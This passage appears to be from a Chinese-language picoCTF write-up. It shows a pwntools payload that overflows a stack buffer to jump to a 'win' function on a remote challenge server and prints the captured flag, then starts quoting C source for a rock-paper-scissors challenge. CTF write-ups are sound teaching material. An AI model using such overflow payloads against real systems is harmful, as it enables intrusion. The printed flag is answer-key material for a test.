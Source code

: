 ```C

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

栈溢出到win函数即可。

payload：

```python
# io = process('./vuln')
io = remote('saturn.picoctf.net', 49730)

io.sendlineafter(b'Please enter your string:', cyclic(0x2c) + p32(0x80491f6))

io.interactive()
```
picoCTF{addr3ss3s_ar3_3asy_ad2f467b}

## 5. RPS

一个石头剪刀布游戏。

源码：

```C
#include <stdio.h>
#include <stdlib.h>
#include <stdbool.h>
#include <string.h>
#include <time.h>
#include <unistd.h>
#include <sys/time.h>
#include <sys/types.h>


#define WAIT 60



static const char* flag = "[REDACTED]";

char* hands[3] = {"rock", "paper", "scissors"};
char* loses[3] = {"paper", "scissors", "rock"};
int wins = 0;



int tgetinput(char *input, unsigned int l)
{
    fd_set          input_set;
    struct timeval  timeout;
    int             ready_for_reading = 0;
    int             read_bytes = 0;
    
    if( l <= 0 )
    {
      printf("'l' for tgetinput must be greater than 0\n");
      return -2;
```